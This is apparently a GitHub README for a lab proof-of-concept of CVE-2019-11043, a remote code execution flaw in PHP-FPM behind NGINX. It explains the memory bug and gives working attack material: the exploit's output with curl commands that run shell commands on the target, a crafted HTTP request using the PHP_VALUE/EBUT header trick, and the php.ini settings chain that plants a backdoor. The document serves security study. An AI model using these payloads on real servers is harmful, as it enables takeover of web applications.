




# PoC CVE-2019-11043
A Python implementation of the CVE-2019-11043 exploit <br>

The exploit recorded as CVE-2019-11043 takes advantage of a bug in the implementation of PHP-FPM in conjunction with a NGINX server. In certain configurations, a regular expression in the FastCGI path_info causes the FPM module to write past allocated buffers into the space reserverd for the FastCGI protocol data. As a result, a web user may be able to execute code remotely. The following table shows the evaluation of the severity of the exploit according to the Common Vulnerability Scoring System (CVSS).


| Metric        | Value           | 
| ------------- |:-------------:|
| Impact Score  | 5.9 |
| Base Score    | 9.8 |
| Severity | Critical |
| Access Vector | Network |
|Confidentiality| High|
|Integrity|High|
|Availability|High|

## Setup

Docker Images:
* nginx@latest
* php-fpm@7.2.10

Python:
* exploit script

## Getting started

**An installation of [Docker](https://www.docker.com/) and [docker-compose](https://docs.docker.com/compose/) is required in order to run the project.**

By running the following command from the root directory of the project all needed docker images should be downloaded and containers started in the correct order:

```bash
docker-compose up
```

In order to run the setup daemonized, execute the following command:

```bash
docker-compose up -d
```

To stop a daemonized start, execute the following command:

```bash
docker-compose down
```

**Example**

```bash
# docker-compose up -d
Creating php   ... done
Creating nginx ... done
```

## How to use the Exploit

```bash
# python3 exploit.py --target http://localhost:11043/index.php
🚀🚀🚀 Starting...
? Requesting target to find qsl candidates.
        [Response] Status sode is 502 for QSL 1761. Meets criteria and added as candidate
        [Response] Status sode is 502 for QSL 1762. Meets criteria and added as candidate
        [Response] Status sode is 502 for QSL 1763. Meets criteria and added as candidate
        [Response] Status sode is 502 for QSL 1764. Meets criteria and added as candidate
        [Response] Status sode is 502 for QSL 1765. Meets criteria and added as candidate
        Post processed QSL candidate(s): 1751, 1752, 1753, 1754, 1755, 1756, 1757, 1758, 1759, 1760, 1761, 1762, 1763, 1764, 1765
⚙️ Testing found candidates
        [Test] QSL Candidate:  1751
        [Test] QSL Candidate:  1752
        [Test] QSL Candidate:  1753
        [Test] QSL Candidate:  1754
        [Test] QSL Candidate:  1755
💣 Target seems vulnerable with attack parameters: (QSL:1755/HVL:8): PHPSESSID=b83281b19399d7725091ad4b2b20e530; path=/
✅ Success: Remote Code Execution exploit successfully deployed!

You should be able to run commands using:
    🌍 curl http://localhost:11043/index.php?a=bin/ls+/
    or
    🌍 curl http://localhost:11043/index.php?a=%0asleep+5%0a+/

```

## Analysis


### The Bug
This vulnerability was found during the Real World CTF 2019 Qualification Round, when Andrew Danau, a security researcher, found that sending a new line control character ```%0A``` results in an exception in the server's code.

The regular expression in `fastcgi_split_path_info` directive can be broken using the newline character (in encoded form, `%0A`). The broken regular expression then leads to an empty `PATH_INFO`, which triggers the bug.
As the `env_path_info` is the address of the variable `path_info`, `path_info` is `0` so `pilen` is also `0`. `slen` is the length of the requested URL.



### How to control path_info

Using a carefully chosen length of the URL path and query string, an attacker can make `path_info` point precisely to the first byte of `_fcgi_data_seg` structure. Putting zero into it moves `char* pos` field backwards, and following `FCGI_PUTENV` overwrites some data (including other fast cgi variables) with the script path. Using this technique, the vulnerability allows to create a fake `PHP_VALUE` FCGI variable and then use a chain of carefully chosen config values to get code execution.



```bash
int ptlen = strlen(pt);
int slen = len - ptlen;
int len = script_path_translated_len;
```
* `len` is the length of url path
  * when url is `http://localhost:11043/index.php/TUD%0aNetSec.php`
  * script_path_translated from nginx config，is `/var/www/html/index.php/TUD\nNetSec.php`
* `ptlen` is the length of content, before the first slash in the url path
  * when url is `http://localhost:11043/index.php/TUD%0aNetSec.php`
  * `pt` is `/var/www/html/index.php`

**The difference between the two variables "len" and "ptlen" is the length of the path specified in the URL. Since the path of these two can be controlled, the variable path_info can also be controlled.**


As the path is controllable, we can set the value of any address to zero (Line 1222). By setting the value of the targeted address to zero, we can control the `char* pos` of `_fcgi_data_seg` structure to zero. By this approach we exploit a buffer underflow and are able to write global variables into the right memory space. <br>

The hash and the length are compared before keys. By carefully choosing the right headers and keys, we are able to add using headers. According to the findings of *neex*, the string "ebut", which becomes `HTTP_EBUT` has the same length and `FCGI_HASH` value as `PHP_VALUE`. Thereby sending a GET request to the server similar to<br> 
`GET /index.php/PHP_VALUE%0Asession_start=1;;;`
`EBUT: tudda nwsec`<br>
the header `HTTP_EBUT` becomes `PHP_VALUE` and the value `session_start=1`.

### Determine the vulnerability of a server

#### Prerequisites


The following list gives the exploiter the necessary prerequisites that must be satisfied in order to deploy the attack.
* The location settings in the NGINX configuration must be forwarded to PHP-FPM
* The path_info variable needs to be set in according with fastcgi_path_info
* The path_info is set after request_uri in the configuration.
* The regular expression needs to start withˆand end with $ such that the env_path_info becomes an empty value when parsing a URI with a newline character.
* There should be no file existence checks like try_files $uri = 404 in the configruation file, as this prevents FastCGI forwarding the requests and will never reach PHP-FPM.
* This exploit works only for PHP 7+, to be more precisely, versions 7.1.x below 7.1.33, 7.2.x below 7.2.24 and 7.3.x below 7.3.11.


#### Exploit

In the first step we have to find a query string length at which a new line control character ```%0A``` results in an exception in the server's code and such that the server responds with a > 500 HTTP error code. Based on this information, we can now try to write `PHP_VALUE` in and control its contents. At first, we try to set up a session. If this succeeds, we are aware of the vulnerability of the server. AT this point, we know that we are able to control any global variables in PHP.
Utilizing the aforementioned established session to the sever, we overwrite and setup our prerequisites to the sever's settings to allow a remote code execution. The author's of the exploit sets up a array of special php settings. He enables auto including, sets the path to /tmp, sets log file address to /tmp/a and also writes the payload into the log file. Finally, the PHP file will automatically include a log file to make a backdoor.

```HTML
< GET /index.php/PHP_VALUE%0Asession.auto_start=1?TUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUDTUD HTTP/1.1
< Host: localhost:11043
< User-Agent: CVE-2019-11043
< Accept-Encoding: gzip, deflate
< Accept: */*
< Connection: keep-alive
< TUD: AAAAAAAAAAAAAAAAA
< Ebut: tudda nwsec
< 

> HTTP/1.1 200 OK
> Server: nginx/1.17.10
> Date: Tue, 19 May 2020 07:38:58 GMT
> Content-Type: text/html; charset=UTF-8
> Transfer-Encoding: chunked
> Connection: keep-alive
> 
<html>
 <head>
  <title>Exploit PHP-FPM as proposed in CVE-2019-11043</title>
 </head>
 <body>
     <p>Challenge PHP with nginx + php-fpm configurations.</p> </body>
</html>
```

The *php.ini* options chain that makes remote code execution possible:
```bash
php_settings = [
	"short_open_tag=1;;;;;;;", # Open short php tab
	"html_errors=0;;;;;;;;;;", # Turn off HTML tag in the error message
	"include_path=/tmp;;;;;;", # Include Path
	"auto_prepend_file=a;;;;", # Specifies the files that are automatically included before the script executes, similar to require().
	"log_errors=1;;;;;;;;;;;", # Enable error logging
	"error_reporting=2;;;;;;", # Specify error level
	"error_log=/tmp/a;;;;;;;", # Error logging file
	"extension_dir=%22%3C%3F=%60%22;;;", # Specify the load directory for the extension
	"extension=%22$_GET%5Ba%5D%60%3F%3E%22", # Specify the extension to load
]
```
*Note:* Semicolons are used to fill up memory space, s.t. `PHP_VALUE\nauto_prepend_file=a;;;;` becomes 34 Bytes which is the fixed length of `PATH_INFO`. Thereby we ensure that all settings are written correctly to the memory space.


## Impact

PHP provides the framework for many popular websites and web applications. Since the use of NGINX-based web servers in combination with PHP 7 is ubiquitous, this vulnerability has been classified as critical. In addition, it is relatively easy to implement and achieves persistence once abused. As a successful exploitation of CVE-2019-11043 could lead to RCE it may allow hackers and threat actors to take over a web application. 

The exploit has to be taken serious besides the fact that this vulnerability is limited to specific NGINX configurations; the default Nginx not have this problem.

## Resources
https://paper.seebug.org/1064/  <br>
https://blog.orange.tw/2019/10/an-analysis-and-thought-about-recently.html <br>
https://medium.com/@knownsec404team/php-fpm-remote-code-execution-vulnerability-cve-2019-11043-analysis-35fd605dd2dc  <br>

https://github.com/neex/phuip-fpizdam <br>
https://github.com/theMiddleBlue/CVE-2019-11043


